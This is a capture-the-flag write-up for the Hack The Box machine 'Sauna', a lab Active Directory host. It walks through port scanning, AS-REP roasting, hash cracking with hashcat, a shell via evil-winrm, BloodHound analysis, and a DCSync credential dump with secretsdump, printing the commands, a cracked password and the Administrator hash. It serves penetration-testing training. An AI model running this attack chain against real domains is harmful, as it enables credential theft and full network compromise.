

# Sauna HTB


We'll start by running our long nmap scan to enumerate all open ports, we get the following response:

```bash
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-31 15:30:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
```
We'll jump into the web server to see if there is any interesting information.
After some looking around, the `about` page stores information on employees working at the site:
 

The site has lots of instances of the word *roast* and *sauna* making me think that there is a user vulnerable to kerberoasting.
I'll take these list of names and use the username-anarchy script to generate a list of usable names.
Then, I'll run this new list of usernames against `Get-NPUsers` with the `-no-pass` flag enabled.

```bash
└─$ impacket-GetNPUsers -no-pass -k -dc-ip 10.10.10.175 'EGOTISTICAL-BANK.LOCAL/' -usersfile usernames.txt 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
---snip---
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:d22058fcc1b93d15950089645608c227$9adb481102cad86d2a7b046520357499ce7502a598cfd56d7b78547545090c3f1edb2f4bf0d6c19dcc6c86dfce2df0f6f37bb89a8f0b142b02ff3a817565e942c0c9f79184de26de275a671622cab9054de2abbd14847b260a054b2ba4cf97c0547f5aeb0fa4a7362e1503d0beb42945bd926afc1f2e442a55de514761b54a80a1e4522ab23f092235686860c68ea3236100ef7028d8dd16bb5e947209ea1fcce4a1dbacbe1f8519eb0b9fc962da1addca719d99dc3017329b4baaa176b04d9e6c697ebdef97cf442a8b6f52dd094b380db7c56bed116c6339c83db39b16709e52d4943cab19ddeac3751b81fde7028b9b4825b34610d503fdd0c512353e8c42
```


We'll load this hash into it's own file then try and crack it with hashcat.
Using RockYou, it'll crack the hash in a few seconds:
```bash
└─$ hashcat fsmith.hash /usr/share/wordlists/rockyou.txt --force 

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:d22058fcc1b93d15950089645608c227$9adb481102cad86d2a7b046520357499ce7502a598cfd56d7b78547545090c3f1edb2f4bf0d6c19dcc6c86dfce2df0f6f37bb89a8f0b142b02ff3a817565e942c0c9f79184de26de275a671622cab9054de2abbd14847b260a054b2ba4cf97c0547f5aeb0fa4a7362e1503d0beb42945bd926afc1f2e442a55de514761b54a80a1e4522ab23f092235686860c68ea3236100ef7028d8dd16bb5e947209ea1fcce4a1dbacbe1f8519eb0b9fc962da1addca719d99dc3017329b4baaa176b04d9e6c697ebdef97cf442a8b6f52dd094b380db7c56bed116c6339c83db39b16709e52d4943cab19ddeac3751b81fde7028b9b4825b34610d503fdd0c512353e8c42:Thestrokes23
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:d22058f...3e8c42
Time.Started.....: Sat Feb  1 00:52:12 2025, (3 secs)
Time.Estimated...: Sat Feb  1 00:52:15 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3303.7 kH/s (3.51ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10551296/14344384 (73.56%)
Rejected.........: 0/10551296 (0.00%)
Restore.Point....: 10534912/14344384 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tiona172 -> TUGGAB8
Hardware.Mon.#1..: Temp: 99c Util: 54%

Started: Sat Feb  1 00:52:10 2025
Stopped: Sat Feb  1 00:52:17 2025
```

Now that we've got the hash, we can jump in using Evil-WinRM
```bash
└─$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23                                                                                   
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
```
Then we can grab the user flag from the Desktop

From here I'll drop `SharpHound.exe` on to the machine, then run it to generate the BloodHound graph.
Once I've loaded the graph into BloodHound, I'll locate the compromised service user and check their direct ownerships:


Now that we know that the user can do GetChangesAll over the domain, we'll right click the edge and see what exploits are available.
BloodHound says that a DCSync attack is possible to extract the hashes from the domain.

I'll use `SecretsDump.py` to pull these out:
```bash
└─$ python3 secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
[*] Cleaning up... 
---snip---
```

From here I'll simply pass the Administrator hash to Evil-WinRM to get a session and grab the root flag.
